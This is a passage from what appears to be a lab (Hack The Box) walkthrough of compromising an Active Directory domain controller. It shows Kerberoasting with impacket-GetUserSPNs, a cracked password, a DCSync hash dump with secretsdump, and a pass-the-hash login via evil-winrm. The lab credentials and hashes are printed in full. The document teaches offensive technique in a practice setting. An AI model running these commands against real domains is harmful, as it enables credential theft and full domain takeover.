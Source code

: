 The first time I run the attack I get the following error message: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` this is because my machine and the DC are in different time zones and the clock skew is detected and stops me from doing the attack. This can be solved with a very handy tool called `ntpdate`. We can provide the DC's IP address to the tool and it will switch our time to the DC's time zone which would eliminate the clock skew. I tried running the command one by one but it seems that my time gets reset almost immediately this is why I run the commands with `;`. 

```
sudo ntpdate -u 10.10.11.42 ; impacket-GetUserSPNs -dc-ip 10.10.11.42 administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -request
```
![admin](assets/images/administrator/Pasted image 20250311000833.png)

We get Ethan's hash. I used `hashcat` to crack the password and we get Ethan's credentials: 

```
ethan:limpbizkit
```


#### DCSync Attack

Since Ethan has **DCSync** rights over the DC we can perform this attack and get all the NTLM hashes from this DC, including the administrators hash. 

```
impacket-secretsdump -outputfile admin_hashes -just-dc administrator.htb/ethan@10.10.11.42
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
```

From here we can try to crack the hash but its not really necessary we can use pass the hash to login as administrator from `evil-winrm`.

```
evil-winrm -i 10.10.11.42 -u Admnistrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

Overall this was a very fun box and I liked the concepts of lateral movement to get the password database from the FTP server. 